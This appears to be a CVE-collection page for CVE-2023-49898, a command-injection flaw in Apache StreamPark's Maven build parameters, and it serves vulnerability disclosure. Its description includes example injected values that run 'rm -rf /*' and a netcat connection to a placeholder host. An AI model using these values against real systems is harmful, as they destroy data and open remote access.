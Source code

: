 ### [CVE-2023-49898](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49898)
![](https://img.shields.io/static/v1?label=Product&message=Apache%20StreamPark%20(incubating)&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.0.0%3C%202.1.2%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-77%20Improper%20Neutralization%20of%20Special%20Elements%20used%20in%20a%20Command%20('Command%20Injection')&color=brighgreen)

### Description

In streampark, there is a project module that integrates Maven's compilation capability. However, there is no check on the compilation parameters of Maven. allowing attackers to insert commands for remote command execution, The prerequisite for a successful attack is that the user needs to log in to the streampark system and have system-level permissions. Generally, only users of that system have the authorization to log in, and users would not manually input a dangerous operation command. Therefore, the risk level of this vulnerability is very low.Mitigation:all users should upgrade to 2.1.2Example:##You can customize the splicing method according to the compilation situation of the project, mvn compilation results use &&, compilation failure use "||" or "&&":/usr/share/java/maven-3/conf/settings.xml || rm -rf /*/usr/share/java/maven-3/conf/settings.xml && nohup nc x.x.x.x 8899 &

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds

